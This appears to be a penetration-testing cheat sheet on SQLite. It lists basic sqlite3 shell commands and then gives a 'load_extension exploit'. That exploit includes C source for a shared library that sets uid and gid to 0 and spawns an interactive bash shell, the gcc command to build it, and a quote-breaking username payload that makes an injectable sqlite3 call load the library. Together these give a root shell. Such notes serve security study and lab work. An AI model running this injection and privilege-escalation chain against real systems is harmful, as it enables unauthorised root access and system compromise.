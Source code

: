 
# SQLite
SQLite is a lightweight, serverless, embedded relational database management system (RDBMS). It's a library that is embedded directly into applications, rather than being a separate server process.

## Useful Commands

```bash
# Open DB file
.open <your_file.db>

# List databases
.databases

# List tables
.tables

# Structure of table
.schema <table>
```

  

# Command Execution

## load_extension exploit

**Scenario**: Suppose we're on Linux and there's a bash script which asks for a username that will be used to activate the user.

The commands looks like this:
```bash
/usr/bin/sqlite3 db.sqlite3 -line \'UPDATE accounts_customuser SET is_active=1 WHERE username=\"%s\";\'
```

1. We need to create a C script.

```c
// test.c

#include <stdlib.h>
#include <unistd.h>

void _init() {
	setuid(0);
	setgid(0);
	system("/bin/bash -i");
}
```

2. Compile the C script into a shared library.

```bash
# Here we create a shared library
gcc -shared -fPIC -nostartfiles -o test.so test.c
```

This library will spawn an elevated shell.

For this to work we're going to create a payload (`"+load_extension('test.so')+"`) that we'll feed to the script. Once the script reaches the point where the username is used in the SQL statement, a shell with elevated privileges will be spawned.

# References
- [https://www.sqlite.org/docs.html](https://www.sqlite.org/docs.html)
- [https://github.com/OpenRefine/OpenRefine/security/advisories/GHSA-87cf-j763-vvh8](https://github.com/OpenRefine/OpenRefine/security/advisories/GHSA-87cf-j763-vvh8)